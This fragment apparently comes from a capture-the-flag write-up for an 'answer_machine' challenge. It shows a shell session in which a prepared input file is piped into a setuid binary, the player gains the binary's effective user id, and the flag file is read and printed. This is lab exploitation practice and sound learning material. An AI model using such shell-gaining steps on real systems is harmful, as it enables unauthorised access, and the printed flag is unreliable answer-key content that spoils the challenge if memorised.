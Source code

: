 team24254@shell:~$ (cat in.txt ;cat) | /problems/answer_machine/answer_machine
Welcome, today is Tue Apr 12 22:24:25 EDT 2016
I can't talk now, so leave a message:
Error opening file; message moved to trash
id
uid=1028(team24254) gid=1000(ctfgroup) euid=1081(answer_machine) groups=1004(answer_machine),1000(ctfgroup)
cat /problems/answer_machine/flag.txt


coulda_just_used_strftime_instead_amirite
